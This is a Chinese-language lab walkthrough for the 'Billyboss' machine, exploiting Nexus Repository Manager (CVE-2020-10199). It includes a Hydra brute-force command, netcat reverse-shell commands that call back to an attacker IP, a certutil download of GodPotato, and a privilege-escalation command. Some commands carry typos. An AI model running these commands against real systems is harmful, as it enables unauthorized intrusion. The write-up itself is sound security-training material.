



# ✔️ Billyboss

## 建立立足点

### 信息枚举

* 使用Nmap针对目标系统的开放端口进行扫描：

```bash
nmap -sC -sV -p- -oA billyboss 192.168.250.61
```

<figure><figcaption></figcaption></figure>

* 同时也可直接尝试看看目标系统是否有web页面，本例的80端口正运行着一个叫BaGet的应用程序，可做一些常规的信息收集：

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

* 通过Nmap的扫描结果，发现目标还有一个8081的开放端口，也正在运行着HTTP服务，依次查看相关网页内容，确定当前正运行的是Nexus Repository Manager OSS 3.21.0-05的应用程序：

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

* 使用dirsearch扫描一下该端口上还有没有其他的隐藏目录/文件：

<figure><figcaption></figcaption></figure>

* 发现一个/swagger-ui，看它大小不抱什么希望，果然没什么东西：

<figure><figcaption></figcaption></figure>

### 漏洞查阅

* 因为此时已经获得了应用程序的版本号，查阅公开漏洞库发现了可能可以利用的漏洞脚本：

<figure><figcaption></figcaption></figure>

* 阅读该脚本后，发现几个需要修改的地方：

<figure><figcaption></figcaption></figure>

* 但是在之前的信息枚举的过程中完全没有发现任何可利用用户凭证信息，所以决定使用Hydra进行爆破：

1. 先用BurpSuite拦截一下POST表单查看路径和用户名、密码处的格式：

<figure><figcaption></figcaption></figure>

2. 用户名密码处用Base64编码了，在构造hydra命令时应注意用:username=<mark style="color:red;">**^USER64^**</mark>spassw0rd=<mark style="color:red;">**^PASS64^**</mark>：

```bash
# 使用Hydra的爆破时间实在是太长，需要准备一些更好的username和password字典文件
hydra -L /usr/share/secLists/Usernames/Names/names.txt -P /usr/share/SecLists/Passwords/common-credentials/10k-most-common.txt
192.168.250.61 -s 8081 http-post-form '/service/rapture/session:username=^USER64^spassw0rd=^PASS64^:Forbidden‘
```

* 因考虑到Hydra爆破耗时漫长，所以与此同时决定猜测弱口令，简单猜测几次后发现了有效凭证_<mark style="color:red;">**nexus:nexus  😄**</mark>_

<figure><figcaption></figcaption></figure>

### 漏洞利用

* 此时已具备了可以修改漏洞脚本的基本项，但是还需要上传一个nc.exe程序，用于后续执行一个反弹shell回来：

<figure><figcaption></figcaption></figure>

* 在Kali机器的对应目录下，存放一个nc64.exe脚本并开启一个简单的服务器：

<figure><figcaption></figcaption></figure>

* nc64.exe程序上传成功：

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

### GET SHELL

* 此时，可再次修改脚本内容，用于执行反弹shell回连到Kali机器上：

<figure><figcaption></figcaption></figure>

* 但是返回后的信息显示了一个错误信息，我设置的命令被嵌套在好几个函数中：

<figure><figcaption></figcaption></figure>

* 使用反斜杠逃逸：

```bash
.\\\\nc64.exe 192.168.45.158 4444 -e cmd.exe
```

<figure><figcaption></figcaption></figure>

* 监听端口接收到了回连的shell，此时getshell并获得了flag：

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

## 权限提升

### 本机信息枚举

* 先手工进行简单的信息收集：

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

### 漏洞利用

* 本例中决定使用提权工具GodPotato，但是得先确定目标系统的.NET框架的版本号，得知为4.0版本：

```powershell
reg query "HKEY_L0CAL_MACHINE\S0FTWARE\Microsoft\NET Framework Setup\NDP"
```

<figure><figcaption></figcaption></figure>

* 下载GodPotato-NET4.exe，然后将工具传到目标系统中：

<figure><figcaption></figcaption></figure>

```powershell
certutil -split -f -urlcache http://192.168.45.158/GodPotato-NET4.exe
```

<figure><figcaption></figcaption></figure>

* 上传成功后，执行一下GodPotato-NET4.exe程序，看看是否可以成功执行：

<figure><figcaption></figcaption></figure>

### ROOT

* 此时，将GodPotato-NET4.exe程序的\`-cmd\`参数的值修改为调用刚才上传的nc64.exe程序以执行一个反弹shell回连至Kali本机中：

```powershell
.\GodPotato-NEr4.exe -cmd "C:\Users\nathan\Nexus\nexus-3.21.0-05\nc64.exe 192.168.45.158 8888 -e cmd.exe"
```

<figure><figcaption></figcaption></figure>

* 获得ROOT flag：

<figure><figcaption></figcaption></figure>


本例算中等偏难的机器，锁定可利用的漏洞和提权时都不难，但是其实现过程中需要根据实际情况进行修改和变通。

CVE-2020-10199

